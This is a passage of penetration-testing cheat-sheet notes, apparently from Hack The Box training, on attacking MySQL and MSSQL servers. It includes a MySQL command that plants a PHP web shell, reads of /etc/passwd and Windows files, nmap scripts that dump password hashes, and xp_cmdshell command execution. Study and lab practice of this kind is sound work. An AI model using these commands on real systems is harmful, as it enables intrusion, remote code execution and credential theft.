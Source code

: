  Create a file: `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`

Read local files: `mysql> select LOAD_FILE("/etc/passwd");`


# MSSQL

Databases:

|Default System Database|Description|
|---|---|
|`master`|Tracks all system information for an SQL server instance|
|`model`|Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database|
|`msdb`|The SQL Server Agent uses this database to schedule jobs & alerts|
|`tempdb`|Stores temporary objects|
|`resource`|Read-only database containing system objects included with SQL server|

Script scan:

```shell-session
creanyx@htb[/htb]$ sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p port IP
```

Metasploit: 

```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping)
```

Connecting with Mssqlclient.py

```shell-session
python3 mssqlclient.py Administrator@IP -windows-auth
```

Connect: `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`, `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`

Execute: `sqlcmd> xp_cmdshell 'whoami'`

Read local files: `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`

Identify the user and privileges: `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`


# IPMI

NMAP:

